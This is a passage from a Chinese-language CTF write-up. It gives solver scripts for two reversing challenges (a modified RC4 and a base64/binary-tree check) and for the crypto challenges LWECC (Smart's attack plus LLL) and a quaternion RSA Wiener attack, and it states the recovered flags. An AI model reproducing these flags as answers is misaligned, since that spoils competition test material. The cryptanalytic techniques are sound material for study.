        addl    $1, %eax
        andl    $255, %eax
                                        # kill: def $al killed $al killed $eax
        movb    %al, -33(%rbp)
        movzbl  -34(%rbp), %eax
        movq    -8(%rbp), %rcx
        movzbl  -33(%rbp), %edx
                                        # kill: def $rdx killed $edx
        movzbl  (%rcx,%rdx), %ecx
        addl    %ecx, %eax
        movzbl  -33(%rbp), %ecx
        addl    %ecx, %eax
        andl    $255, %eax
                                        # kill: def $al killed $al killed $eax
        movb    %al, -34(%rbp)
        movq    -8(%rbp), %rax
        movzbl  -33(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    (%rax,%rcx), %al
        movb    %al, -49(%rbp)
        movq    -8(%rbp), %rax
        movzbl  -34(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    (%rax,%rcx), %dl
        movq    -8(%rbp), %rax
        movzbl  -33(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    %dl, (%rax,%rcx)
        movb    -49(%rbp), %dl
        movq    -8(%rbp), %rax
        movzbl  -34(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    %dl, (%rax,%rcx)
        movq    -8(%rbp), %rax
        movq    -8(%rbp), %rcx
        movzbl  -33(%rbp), %edx
                                        # kill: def $rdx killed $edx
        movzbl  (%rcx,%rdx), %ecx
        movq    -8(%rbp), %rdx
        movzbl  -34(%rbp), %esi
                                        # kill: def $rsi killed $esi
        movzbl  (%rdx,%rsi), %edx
        addl    %edx, %ecx
        andl    $255, %ecx
        movslq  %ecx, %rcx
        movzbl  (%rax,%rcx), %eax
        movzbl  -33(%rbp), %ecx
        addl    %ecx, %eax
        andl    $255, %eax
                                        # kill: def $al killed $al killed $eax
        movb    %al, -50(%rbp)
        movq    -8(%rbp), %rax
        movzbl  -50(%rbp), %ecx
                                        # kill: def $rcx killed $ecx
        movb    (%rax,%rcx), %al
        movb    %al, -51(%rbp)
        movq    -16(%rbp), %rax
        movq    -48(%rbp), %rcx
        movzbl  (%rax,%rcx), %eax
        movzbl  -51(%rbp), %ecx
        xorl    %ecx, %eax
        movb    %al, %dl
        movq    -24(%rbp), %rax
        movq    -48(%rbp), %rcx
        movb    %dl, (%rax,%rcx)
# %bb.3:                                #   in Loop: Header=BB2_1 Depth=1
        movq    -48(%rbp), %rax
        addq    $1, %rax
        movq    %rax, -48(%rbp)
        jmp     .LBB2_1
.LBB2_4:
        popq    %rbp
        .cfi_def_cfa %rsp, 8
        retq
.Lfunc_end2:
        .size   sub_1a4c, .Lfunc_end2-sub_1a4c
        .cfi_endproc
                                        # -- End function
        .type   .L.str,@object                  # @.str
        .section        .rodata.str1.1,"aMS",@progbits,1
.L.str:
        .asciz  "malloc failed\n"
        .size   .L.str, 15

        .type   .L.str.1,@object                # @.str.1
.L.str.1:
        .asciz  "realloc failed\n"
        .size   .L.str.1, 16

        .type   sub_138,@object                 # @sub_138
        .section        .rodata,"a",@progbits
sub_138:
        .ascii  "flag{fake}"
        .size   sub_138, 10

        .type   sub_b361,@object                # @sub_b361
        .p2align        4, 0x0
sub_b361:
        .ascii  "ab#_var1an&_k3y_f0r_???"
        .size   sub_b361, 23

        .type   .L.str.2,@object                # @.str.2
        .section        .rodata.str1.1,"aMS",@progbits,1
.L.str.2:
        .asciz  "Incorrect! (length mismatch)\n"
        .size   .L.str.2, 30

        .type   sub_584c,@object                # @sub_584c
        .section        .rodata,"a",@progbits
        .p2align        4, 0x0
sub_584c:
        .ascii  "\302\366\277\251\232\276$\334h\f\364`\327\372\312,X\3128\b\211/@$]\207\227\222\242[\372\201\272Y\200p\266d\202S\021]"
        .size   sub_584c, 42

        .type   .L.str.3,@object                # @.str.3
        .section        .rodata.str1.1,"aMS",@progbits,1
.L.str.3:
        .asciz  "Correct!\n"
        .size   .L.str.3, 10

        .type   .L.str.4,@object                # @.str.4
.L.str.4:
        .asciz  "Incorrect!\n"
        .size   .L.str.4, 12

        .ident  "Ubuntu clang version 14.0.0-1ubuntu1.1"
        .section        ".note.GNU-stack","",@progbits
        .addrsig
        .addrsig_sym malloc
        .addrsig_sym fprintf
        .addrsig_sym getchar
        .addrsig_sym realloc
        .addrsig_sym free
        .addrsig_sym sub_2a4c
        .addrsig_sym sub_1a4c
        .addrsig_sym printf
        .addrsig_sym memcmp
        .addrsig_sym stderr
        .addrsig_sym sub_138
        .addrsig_sym sub_b361
        .addrsig_sym sub_584c
```

flag{fake}+真正的flag=plaintext

用魔改RC4加密plaintext：

1.KSA

```python
for i in range(256):
    # 1. 非常规的密钥字节访问
    key_index = (i * 5 + 3) % key_len  # 不是简单的 i % key_len
    
    # 2. 标准j计算
    j = (j + S[i] + key[key_index]) & 0xFF
    
    # 3. 标准交换
    S[i], S[j] = S[j], S[i]
    
    # 4. 额外的j更新 (魔改!)
    j = (j + i) & 0xFF  # 交换后再次修改j
```

2.PGRA:

```python
for 每个字节:
    # 1. 标准i更新
    i = (i + 1) & 0xFF
    
    # 2. 魔改的j更新
    j = (j + S[i] + i) & 0xFF  # 额外加了 +i
    
    # 3. 标准交换
    S[i], S[j] = S[j], S[i]
    
    # 4. 标准t计算
    t = (S[i] + S[j]) & 0xFF
    
    # 5. 魔改的索引计算
    idx = (S[t] + i) & 0xFF  # 使用 S[t] + i 而不是 t
    
    # 6. 密钥流字节
    keystream = S[idx]
```


```python
def solve():
    # @sub_584c密文
    ciphertext = [
        0xC2, 0xF6, 0xBF, 0xA9, 0x9A, 0xBE, 0x24, 0xDC, 0x68, 0x0C, 
        0xF4, 0x60, 0xD7, 0xFA, 0xCA, 0x2C, 0x58, 0xCA, 0x38, 0x08, 
        0x89, 0x2F, 0x40, 0x24, 0x5D, 0x87, 0x97, 0x92, 0xA2, 0x5B, 
        0xFA, 0x81, 0xBA, 0x59, 0x80, 0x70, 0xB6, 0x64, 0x82, 0x53, 
        0x11, 0x5D
    ]

    # 密钥: @sub_b361
    key_str = "ab#_var1an&_k3y_f0r_???"
    key = [ord(c) for c in key_str]
    key_len = len(key)

    # 1. KSA 初始化 (sub_2a4c)
    S = list(range(256))
    j = 0
    for i in range(256):
        k_idx = (i * 5 + 3) % key_len
        
        j = (j + S[i] + key[k_idx]) & 0xFF
        
        S[i], S[j] = S[j], S[i]
        
        j = (j + i) & 0xFF

    # 2. PRGA 解密 (sub_1a4c)
    i = 0
    j = 0
    plaintext = []
    
    for char_code in ciphertext:
        i = (i + 1) & 0xFF
        
        j = (j + S[i] + i) & 0xFF
        
        S[i], S[j] = S[j], S[i]
        
        t = (S[i] + S[j]) & 0xFF
        
        idx = (S[t] + i) & 0xFF
        
        keystream_byte = S[idx]
        
        plaintext.append(char_code ^ keystream_byte)

    result = bytes(plaintext)
    print(f"{result}")

if __name__ == "__main__":
    solve()
```

得到**flag{Thi3_i3_7he_s0_c@11ed_abcd}**


+ eert

> Start investigating data structures

[ ^附件]:eert.zip

ida打开

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  const char **envp_1; // rdx
  __int64 v6; // rax
  __int64 v8; // rax
  const char **envp_2; // rdx
  char v10; // [rsp+7h] [rbp-A9h] BYREF
  TreeNode *v11; // [rsp+8h] [rbp-A8h]
  _QWORD p__Z4tmp1B5cxx11[4]; // [rsp+10h] [rbp-A0h] BYREF
  _QWORD v13[15]; // [rsp+30h] [rbp-80h] BYREF

  v13[13] = __readfsqword(0x28u);
  v3 = std::operator<<<std::char_traits<char>>(&std::cout, "input the flag:", envp);
  std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  std::operator>><char,std::char_traits<char>>(&std::cin, v13);
  std::allocator<char>::allocator(&v10);
  std::string::basic_string<std::allocator<char>>(p__Z4tmp1B5cxx11, v13, &v10);
  v11 = (TreeNode *)buildTree(p__Z4tmp1B5cxx11);
  std::string::~string(p__Z4tmp1B5cxx11);
  std::allocator<char>::~allocator(&v10);
  preorder(v11);
  inorder(v11);
  encrypt((__int64)p__Z4tmp1B5cxx11, &tmp1[abi:cxx11], 7);
  std::string::operator=(&tmp1[abi:cxx11], p__Z4tmp1B5cxx11);
  std::string::~string(p__Z4tmp1B5cxx11);
  encrypt((__int64)p__Z4tmp1B5cxx11, &tmp2[abi:cxx11], 8);
  std::string::operator=(&tmp2[abi:cxx11], p__Z4tmp1B5cxx11);
  std::string::~string(p__Z4tmp1B5cxx11);
  if ( (unsigned __int8)std::operator!=<char>(&tmp1[abi:cxx11], &ans1[abi:cxx11])
    || (unsigned __int8)std::operator!=<char>(&tmp2[abi:cxx11], &ans2[abi:cxx11]) )
  {
    v6 = std::operator<<<std::char_traits<char>>(&std::cout, "wrong flag", envp_1);
  }
  else
  {
    v8 = std::operator<<<std::char_traits<char>>(&std::cout, "right flag", envp_1);
    std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
    v6 = std::operator<<<std::char_traits<char>>(&std::cout, "Please wrap your answer with 'flag{}'", envp_2);
  }
  std::ostream::operator<<(v6, &std::endl<char,std::char_traits<char>>);
  return 0;
}
```

encrypt:

```c
_QWORD *__fastcall encrypt(_QWORD *p__Z4tmp1B5cxx11, void *p__Z4tmp1B5cxx11_1, char n7)
{
  char v5; // [rsp+26h] [rbp-4Ah] BYREF
  char v6; // [rsp+27h] [rbp-49h]
  __int64 v7; // [rsp+28h] [rbp-48h] BYREF
  _QWORD v8[2]; // [rsp+30h] [rbp-40h] BYREF
  _BYTE v9[24]; // [rsp+40h] [rbp-30h] BYREF
  unsigned __int64 v10; // [rsp+58h] [rbp-18h]

  v10 = __readfsqword(0x28u);
  std::vector<unsigned char>::vector(v9);
  v8[1] = p__Z4tmp1B5cxx11_1;
  v7 = std::string::begin(p__Z4tmp1B5cxx11_1);
  v8[0] = std::string::end(p__Z4tmp1B5cxx11_1);
  while ( (unsigned __int8)__gnu_cxx::operator!=<char const*,std::string>(&v7, v8) )
  {
    v6 = *(_BYTE *)__gnu_cxx::__normal_iterator<char const*,std::string>::operator*(&v7);
    v5 = n7 ^ v6;
    std::vector<unsigned char>::push_back(v9, &v5);
    __gnu_cxx::__normal_iterator<char const*,std::string>::operator++(&v7);
  }
  base64_encode_custom[abi:cxx11](p__Z4tmp1B5cxx11, v9);
  std::vector<unsigned char>::~vector(v9);
  return p__Z4tmp1B5cxx11;
}
```

buildtree:

```c
__int64 __fastcall buildTree(void *p__Z4tmp1B5cxx11)
{
  __int64 v1; // rbx
  TreeNode *v2; // rbx
  __int64 v3; // rbx
  __int64 v4; // rbx
  char v6; // [rsp+1Fh] [rbp-61h]
  int i; // [rsp+20h] [rbp-60h]
  int i_2; // [rsp+24h] [rbp-5Ch]
  int i_1; // [rsp+2Ch] [rbp-54h]
  __int64 v10; // [rsp+30h] [rbp-50h] BYREF
  __int64 v11; // [rsp+38h] [rbp-48h] BYREF
  _QWORD v12[2]; // [rsp+40h] [rbp-40h] BYREF
  _QWORD v13[5]; // [rsp+50h] [rbp-30h] BYREF

  v13[3] = __readfsqword(0x28u);
  if ( (unsigned __int8)std::string::empty(p__Z4tmp1B5cxx11) )
    return 0;
  std::vector<TreeNode *>::vector(v13);
  v12[1] = p__Z4tmp1B5cxx11;
  v10 = std::string::begin(p__Z4tmp1B5cxx11);
  v11 = std::string::end(p__Z4tmp1B5cxx11);
  while ( (unsigned __int8)__gnu_cxx::operator!=<char const*,std::string>(&v10, &v11) )
  {
    v6 = *(_BYTE *)__gnu_cxx::__normal_iterator<char const*,std::string>::operator*(&v10);
    v2 = (TreeNode *)operator new(0x18u);
    TreeNode::TreeNode(v2, v6);
    v12[0] = v2;
    std::vector<TreeNode *>::push_back(v13, v12);
    __gnu_cxx::__normal_iterator<char const*,std::string>::operator++(&v10);
  }
  i_2 = std::vector<TreeNode *>::size(v13);
  for ( i = 0; i < i_2; ++i )
  {
    i_1 = 2 * (i + 1);
    if ( 2 * i + 1 < i_2 )
    {
      v3 = *(_QWORD *)std::vector<TreeNode *>::operator[](v13, 2 * i + 1);
      *(_QWORD *)(*(_QWORD *)std::vector<TreeNode *>::operator[](v13, i) + 8LL) = v3;
    }
    if ( i_1 < i_2 )
    {
      v4 = *(_QWORD *)std::vector<TreeNode *>::operator[](v13, i_1);
      *(_QWORD *)(*(_QWORD *)std::vector<TreeNode *>::operator[](v13, i) + 16LL) = v4;
    }
  }
  v1 = *(_QWORD *)std::vector<TreeNode *>::operator[](v13, 0);
  std::vector<TreeNode *>::~vector(v13);
  return v1;
}
```

main函数中的ans1和ans2写在.bss段，交叉引用可找到初始化函数：

```c
unsigned __int64 __fastcall __static_initialization_and_destruction_0(int a1, int n0xFFFF)
{
  char v3; // [rsp+17h] [rbp-19h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  if ( a1 == 1 && n0xFFFF == 0xFFFF )
  {
    std::ios_base::Init::Init((std::ios_base::Init *)&std::__ioinit);
    __cxa_atexit((void (*)(void *))&std::ios_base::Init::~Init, &std::__ioinit, &_dso_handle);
    std::allocator<char>::allocator(&v3);
    std::string::basic_string<std::allocator<char>>(
      &CUSTOM_BASE64_TABLE,
      "ZYXABCDEFGHIJKLMNOPQRSTUVWzyxabcdefghijklmnopqrstuvw0123456789+/",
      &v3);
    std::allocator<char>::~allocator(&v3);
    __cxa_atexit((void (*)(void *))&std::string::~string, &CUSTOM_BASE64_TABLE, &_dso_handle);
    std::allocator<char>::allocator(&v3);
    std::string::basic_string<std::allocator<char>>(&tmp1[abi:cxx11], &unk_60E1, &v3);
    std::allocator<char>::~allocator(&v3);
    __cxa_atexit((void (*)(void *))&std::string::~string, &tmp1[abi:cxx11], &_dso_handle);
    std::allocator<char>::allocator(&v3);
    std::string::basic_string<std::allocator<char>>(&tmp2[abi:cxx11], &unk_60E1, &v3);
    std::allocator<char>::~allocator(&v3);
    __cxa_atexit((void (*)(void *))&std::string::~string, &tmp2[abi:cxx11], &_dso_handle);
    std::allocator<char>::allocator(&v3);
    std::string::basic_string<std::allocator<char>>(&ans1[abi:cxx11], "PTevaTqjNg5pa2GOxBSbcRJ0KiWgR2YY", &v3);
    std::allocator<char>::~allocator(&v3);
    __cxa_atexit((void (*)(void *))&std::string::~string, &ans1[abi:cxx11], &_dso_handle);
    std::allocator<char>::allocator(&v3);
    std::string::basic_string<std::allocator<char>>(&ans2[abi:cxx11], "WEmmcQCKV2abyU94RRmvOih5L2uJy1uL", &v3);
    std::allocator<char>::~allocator(&v3);
    __cxa_atexit((void (*)(void *))&std::string::~string, &ans2[abi:cxx11], &_dso_handle);
  }
  return v4 - __readfsqword(0x28u);
}
```

从而找到自定义base64字符集和ans1=''PTevaTqjNg5pa2GOxBSbcRJ0KiWgR2YY''，ans2="WEmmcQCKV2abyU94RRmvOih5L2uJy1uL"

```python
import base64

# 自定义base64编码表
custom_b64_table = "ZYXABCDEFGHIJKLMNOPQRSTUVWzyxabcdefghijklmnopqrstuvw0123456789+/"
standard_b64_table = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

# 创建转换表
decode_trans = str.maketrans(custom_b64_table, standard_b64_table)
encode_trans = str.maketrans(standard_b64_table, custom_b64_table)

def custom_b64_decode(s):
    # 去除可能的换行符
    s = s.strip()
    # 将自定义base64转换回标准base64
    s = s.translate(decode_trans)
    # 添加padding
    s += '=' * ((4 - len(s) % 4) % 4)
    return base64.b64decode(s)

def decrypt_ans(ans_str, xor_key):
    """解密ans字符串"""
    # 1. base64解码
    decoded_bytes = custom_b64_decode(ans_str)
    # 2. 异或解密
    decrypted = bytes([b ^ xor_key for b in decoded_bytes])
    return decrypted.decode('latin-1')

def build_tree_from_pre_in(preorder, inorder):
    """根据前序和中序遍历重建二叉树"""
    if not preorder or not inorder:
        return None
    
    root_val = preorder[0]
    root = {'val': root_val, 'left': None, 'right': None}
    
    # 在中序中找到根的位置
    root_index = inorder.index(root_val)
    
    # 递归构建左右子树
    root['left'] = build_tree_from_pre_in(
        preorder[1:1+root_index], 
        inorder[:root_index]
    )
    root['right'] = build_tree_from_pre_in(
        preorder[1+root_index:], 
        inorder[root_index+1:]
    )
    
    return root

def level_order_traversal(root):
    """层次遍历（完全二叉树的顺序）"""
    if not root:
        return []
    
    result = []
    queue = [root]
    
    while queue:
        node = queue.pop(0)
        if node:
            result.append(node['val'])
            # 对于完全二叉树，即使子节点为空也要保留位置
            queue.append(node.get('left'))
            queue.append(node.get('right'))
        else:
            result.append(None)  # 空节点
    
    # 去除末尾的None（完全二叉树可能有不完整的最后一层）
    while result and result[-1] is None:
        result.pop()
    
    return result

ans1_str = "PTevaTqjNg5pa2GOxBSbcRJ0KiWgR2YY"  # ans1（前序，异或7）
ans2_str = "WEmmcQCKV2abyU94RRmvOih5L2uJy1uL"  # ans2（中序，异或8）

# 解密
preorder = decrypt_ans(ans1_str, 7)
inorder = decrypt_ans(ans2_str, 8)

print(f"前序遍历序列 ({len(preorder)} chars): {preorder}")
print(f"中序遍历序列 ({len(inorder)} chars): {inorder}")

# 检查长度是否一致
if len(preorder) != len(inorder):
    print(f"错误：前序({len(preorder)})和中序({len(inorder)})长度不一致！")
else:
    print(f"序列长度: {len(preorder)}")
    
    # 重建二叉树
    tree = build_tree_from_pre_in(preorder, inorder)
    
    # 层次遍历得到原始输入
    level_order = level_order_traversal(tree)
    
    # 去除None，得到flag字符
    flag_chars = [c for c in level_order if c is not None]
    flag = ''.join(flag_chars)
    
    print(f"Flag: flag{{{flag}}}")
```





得到**flag{NoDup3TrEeB1dgFla9kVwYzQ}**


## **Crypto**

+ LWECC

> Easy ECC...and LWE maybe

[ ^附件]:LWECC.zip

```python
from Crypto.Util.number import *
from Crypto.Cipher import AES
from random import choice
from hashlib import md5
from secret import flag

p = 1096126227998177188652856107362412783873814431647
E = EllipticCurve(GF(p), [0, 5])

s = [E.random_element() for _ in range(73)]
e = [E.random_element() for _ in "01"]
A = random_matrix(GF(p), 137, 73)
b = [(sum(i*j for i,j in zip(_,s)) + choice(e)).xy() for _ in A]


print("A =", A.list())
print("b =", b)
print("enc =", AES.new(key=md5(str(s).encode()).digest(), nonce=b"LWECC", mode=AES.MODE_CTR).encrypt(flag))
```

$$
p=1096126227998177188652856107362412783873814431647 \\
y^2=x^3+5 \\
E(F_p)=\{ (x,y)|y^2=x^3+5\} \\
s=(s_1,s_2,...,s_{73})\in[E(F_p)]^{73} \\
e=(E_1,E_2)\in[E(F_p)]^2 \\
A\in F_p^{137*73} \\
A_{ij}\leftarrow\$F_p \\
b_i={\sum_{j=1}^{73}{A_{ij}*s_j+\epsilon_i}}_{xy} \\
\epsilon=\leftarrow\${E_1,E_2} \\
b=(b_1,b_2,...,b_{73}) \\
key=MD5(str(s))\in\{0,1\}^{128} \\
enc=AES-CTR_{key}(nonce="LWECC",plaintext=flag)
$$


目标：恢复私钥s，计算出key从而解密flag


$$
G\in E(F_p) \\
b_i\rightarrow P_i,v_i=log_GP_i(ECDLP) \\
v_i=\frac{x_{pQ_i}/y_{pQ_i}}{x_{pG}/y_{pG}}\ (mod\ p)\\
v=(v_1,v_2,...,v_{137})\in F_p^{137} \\
s_j'=log_Gs_j\in F_p,e_0'=log_GE_0,\delta=log_G(E_1-E_0)(ECDLP) \\
define:c_i=
\begin{cases}
1&\text {if }\epsilon_i=E_0 \\
0&\text {if }\epsilon_i=E_1 \\
\end{cases}
\\
then\ v_i={\sum_{j=1}^{73}{A_{ij}*s_j'+e_0'+c_i\delta}}\ (mod\ p) \\
(martrix)v=As'+e_0'*1+\delta*c \\
(1=(1,1,...,1)^T,c=(c_1,c_2,...,c_{137})^T) \\
(matrix)M=[A|1|c]\in F_p^{137*75} \\
M*(s',e_0',\delta)^T=v \\
K\in F_p^{k*137}(k≈137-75=62) \\
\because KM=0 \\
\therefore Kv=0 \\
\therefore \\
\forall r!=s \\
(K_rv)*(K_s)_j-(K_sv)*(K_r)_j\equiv0\ (mod\ p) \\
{\sum_{i=1}^{73}{R_{ji}c_i}\equiv0\ (mod\ p)},j=1,2,...,k-1 \\
(R_{ji}\in F_p) \\
$$

$$
(matrix)L\in Z^{k-1+137} \\
L=(\begin{matrix}
pI_{k-1}&0 \\
R^T&I_{137} \\
\end{matrix})
\\
LLL \\
to\ find\ x=(\alpha_1,\alpha_2,...,\alpha_{k-1},c_1,c_2,...,c_{k-1}) \\
(\alpha_1,\alpha_2,...,\alpha_{k-1}≈0,c_i\in \{0,1\}) \\
then\ we\ solve\ (A,1,c)*(s',e_0',\delta)^T=v \\
get\ s'\in F_p^{73} \\
s_j=s_j'*G\in E(F_p),j=1,2,...,73 \\
k=MD5(str([s_1,...,s_{73}]))\in \{0,1\}^{128} \\
flag=AES-CTR_k(nonce="LWECC",ciphertext=enc)^{-1} \\
$$


$I$是单位矩阵。

```python
import ast
from Crypto.Cipher import AES
from hashlib import md5
import re

# 1. 数据读取
with open("output.txt", "r") as f:
    data = f.read()

# 提取 A, b 和 enc
A_list = ast.literal_eval(re.search(r'A\s*=\s*(\[.*?\])', data, re.S).group(1))
b_pts = ast.literal_eval(re.search(r'b\s*=\s*(\[.*?\])', data, re.S).group(1))
enc_match = re.search(r'enc\s*=\s*b([\'"])(.*?)\1', data)
if enc_match:
    # 处理 b"\x..." 这种转义字符串
    enc = enc_match.group(2).encode('latin-1').decode('unicode_escape').encode('latin-1')
else:
    # 尝试直接解析
    enc = ast.literal_eval(re.search(r'enc\s*=\s*(b[\'"].*?[\'"])', data).group(1))

p = 1096126227998177188652856107362412783873814431647
E = EllipticCurve(GF(p), [0, 5])

# 2. Smart's Attack (解决离散对数)
def smart_attack(P, Q, p):
    E = P.curve()
    Eqp = EllipticCurve(Qp(p, 2), [ZZ(t) + randint(0, p)*p for t in E.a_invariants()])
    def lift(P):
        x, y = map(ZZ, P.xy())
        for point in Eqp.lift_x(x, all=True):
            if GF(p)(point.xy()[1]) == y: return point
        raise ValueError("Lift failed")
    P_qp = lift(P)
    Q_qp = lift(Q)
    pP = p * P_qp
    pQ = p * Q_qp
    xP, yP = pP.xy()
    xQ, yQ = pQ.xy()
    return ZZ((xQ/yQ) / (xP/yP)) % p

# 3. 映射到线性空间
G = None
for x_cand in range(200):
    try:
        G = E.lift_x(GF(p)(x_cand))
        break
    except: continue

print("[*] Computing Discrete Logs (Smart Attack)...")
v = vector(GF(p), [smart_attack(G, E(bi), p) for bi in b_pts])

# 4. 构造格并使用 LLL 寻找选择路径 c
A_mat = matrix(GF(p), 137, 73, A_list)
# 构造扩展矩阵 [A | 1] (137x74)
M_ext = A_mat.augment(matrix(GF(p), [1]*137).transpose())
# 寻找左核，维度约为 137 - 74 = 63
K = M_ext.left_kernel().basis_matrix()
kv = K * v

# 消除 delta，构造关于二进制向量 c 的方程 R * c = 0 mod p
rows = []
for i in range(1, K.nrows()):
    row = [(kv[i]*K[0, j] - kv[0]*K[i, j]) % p for j in range(137)]
    rows.append(row)

num_eqs = len(rows) # 约 62
print(f"[*] Building Lattice with {num_eqs} relations...")

# 正确的格构造：
# 维度：(num_eqs + 137) x (num_eqs + 137)
L = matrix(ZZ, num_eqs + 137, num_eqs + 137)
# 1. 模 p 关系部分
for i in range(num_eqs):
    L[i, i] = p
# 2. 变量系数部分 (Knapsack-like)
for j in range(137):
    row_idx = num_eqs + j
    for i in range(num_eqs):
        L[row_idx, i] = rows[i][j]
    L[row_idx, num_eqs + j] = 1 # 权重设为 1，因为 c_i 是 0 或 1

print("[*] Running LLL...")
L_red = L.LLL()

c_vec = None
for row in L_red:
    # 提取后 137 位
    cand = row[-137:]
    if all(x == 0 or x == 1 for x in cand) and any(x != 0 for x in cand):
        c_vec = vector(GF(p), cand)
        break
    if all(x == 0 or x == -1 for x in cand) and any(x != 0 for x in cand):
        c_vec = vector(GF(p), [-x for x in cand])
        break

if c_vec is None:
    exit()

# 5. 还原秘密并解密
# 方程：v = [A | 1 | c] * [s_1...s_73, L(e0), delta]^T
M_final = A_mat.augment(matrix(GF(p), [1]*137).transpose()).augment(matrix(GF(p), c_vec).transpose())
sol = M_final.solve_right(v)
s_vals = sol[:73]

s_points = [ZZ(si) * G for si in s_vals]

# 计算 key
# Sage 的 str(list) 会输出 [(x : y : 1), ...] 格式，需与题目加密时环境一致
key = md5(str(s_points).encode()).digest()
cipher = AES.new(key=key, nonce=b"LWECC", mode=AES.MODE_CTR)
flag = cipher.decrypt(enc)

print(f"FLAG: {flag.decode(errors='ignore')}")
```

**flag{48c17d955e0f3e16ddbc2fdebeea55}**

这题梭出来了一血::smiley:


+ ComCompleXX

> I've recently become obsessed with math, but this problem seems really comcomplexx. Can you help me?

[ ^附件]:complex.zip

```python
from Crypto.Util.number import *
import random
from secret import flag, key

p, q, e, d = key
n = p * q

assert isPrime(p) and isPrime(q) and p.bit_length() == 512 and q.bit_length() == 512
print('d_len:', d.bit_length())
# d_len: 500

class QN:
    def __init__(self, a, b, c, d, n):
        self.a = a % n
        self.b = b % n
        self.c = c % n
        self.d = d % n
        self.n = n
    def __mul__(self, other):
        if isinstance(other, QN) and self.n == other.n:
            n = self.n
            a1, b1, c1, d1 = self.a, self.b, self.c, self.d
            a2, b2, c2, d2 = other.a, other.b, other.c, other.d
            a = (a1*a2 - b1*b2 - c1*c2 - d1*d2) % n
            b = (a1*b2 + b1*a2 + c1*d2 - d1*c2) % n
            c = (a1*c2 - b1*d2 + c1*a2 + d1*b2) % n
            d = (a1*d2 + b1*c2 - c1*b2 + d1*a2) % n
            return QN(a, b, c, d, n)
        return NotImplemented
    def __pow__(self, exp):
        if exp <= 0:
            return QN(1, 0, 0, 0, self.n)
        result = QN(1, 0, 0, 0, self.n)
        base = self
        while exp > 0:
            if exp & 1:
                result = result * base
            base = base * base
            exp >>= 1
        return result
    def __repr__(self):
        return f"({self.a}, {self.b}, {self.c}, {self.d})"
    def __eq__(self, other):
        return (self.a == other.a and self.b == other.b and 
                self.c == other.c and self.d == other.d and self.n == other.n)

if __name__ == "__main__":
    m = QN(bytes_to_long(flag), random.randint(1,n-1), random.randint(1,n-1), random.randint(1,n-1), n)
    c = pow(m, e)
    assert pow(c,d) == m

    print(f"n = {n}")
    print(f"e = {e}")
    print(f"c = {c}")

'''
n = 85481717157593593434025329804251284752138281740610011731799389557859119300838454555657179864017815910265870318909961454026714464920305413622061116245330661303912116693461205161551044610609272231860357133575507519403908786715597649351821576114881230052647979679534076432015415470679178775688932706964062378627
e = 622349328830189017262721806176220642327451718814004869262654184548169579851269489422592218838968239824917128227573062775020729663341881800222644869706115998147909113383905386637703321110321003518025501597602036772247509043126119242571435842445265921450671551669304835480011469949693693324643919337459251944818821206437044742271947245399811180478630764346756372873090874700249814285609571282905316777766489385036566372369518133091334281269104669836052038324087775082397535339943512028851288569342237442241378961242047171826362264504999955091800815867645003788806864324904993634075730184915611726197403247247938385732000097424282851846018331719216174462481994636142469669316961566262677169345291992925101965060785779535371861314213957527417556275049382603735394888681049143483994633920712406197215676594926797093225468201559158552767178665382859062516627874818691572997614241454801824762125841557409876879638813879540588189811
c = (36509962693210047517809190780500733945629638467721636016118307831299153205787169088399018032858962653944360359037757238416729623515314461908869670066385367461579954207170900898502608201371741903312247217007567631584237670049543882850246347784852813361080564895289678219739976819925055830837232548960336550804, 14959247128290207711158598578966149380261887381574636597156641284189267790471920774170808806288580563577492441070024491886953389517733477847472737986545246252874395600374486543947605977380365673302757291495953658030048738906460472042379676160137626447499571382731894905380992263233204548600668812780247601325, 36653805985529315558503796353782648503316310086826701482263862429608379730584363732938416744191295088641419179725673205148217999183797829423539295825286947419128575063946728227807922575922697370871241826105471260524875137135999213015948866472957081351066130709476717779611974377854714476824268335455979590736, 44619982799889884704010277482810139576960205880619960462167175653326841572868809642692412859814472796539211092403704130039198480671655784971458045667408446084843398171460450068014922244839889367385992492875980531522963147513445040259751323986442839404788429909271285196520486381047903450020895598546088952188)
'''
```

四元数的常识需要有


$$
n=pq \\
ed\equiv1\ (mod\ \phi(n)) \\
M=bytes\_to\_long(flag) \\
r_1,r_2,r_3\leftarrow[1,n-1] \\
m=M+r_1i+r_2j+r_3k=(M,r_1,r_2,r_3) \\
c=m^e \\
$$
此处$d≈n^{0.5}$,Wiener攻击按理来说有可能失效，但是尝试后发现成功了


$$
\frac{e}{n}≈\frac{k}{d} \\
\frac{e}{n}=a_0+\frac{1}{a1+\frac{1}{a2+\frac{1}{a3+\frac{1}{...}}}} \\
p_{-2}=0,p_{-1}=1 \\
q_{-2}=1,q_{-1}=0 \\
p_i=a_ip_{i-1}+p_{i-2} \\
q_i=a_iq_{i-1}+q_{i-2} \\
$$
$\frac{p_i}{q_i}$称为收敛子，通过递推实现

```python
from Crypto.Util.number import long_to_bytes
import sys

n = 85481717157593593434025329804251284752138281740610011731799389557859119300838454555657179864017815910265870318909961454026714464920305413622061116245330661303912116693461205161551044610609272231860357133575507519403908786715597649351821576114881230052647979679534076432015415470679178775688932706964062378627
e = 622349328830189017262721806176220642327451718814004869262654184548169579851269489422592218838968239824917128227573062775020729663341881800222644869706115998147909113383905386637703321110321003518025501597602036772247509043126119242571435842445265921450671551669304835480011469949693693324643919337459251944818821206437044742271947245399811180478630764346756372873090874700249814285609571282905316777766489385036566372369518133091334281269104669836052038324087775082397535339943512028851288569342237442241378961242047171826362264504999955091800815867645003788806864324904993634075730184915611726197403247247938385732000097424282851846018331719216174462481994636142469669316961566262677169345291992925101965060785779535371861314213957527417556275049382603735394888681049143483994633920712406197215676594926797093225468201559158552767178665382859062516627874818691572997614241454801824762125841557409876879638813879540588189811
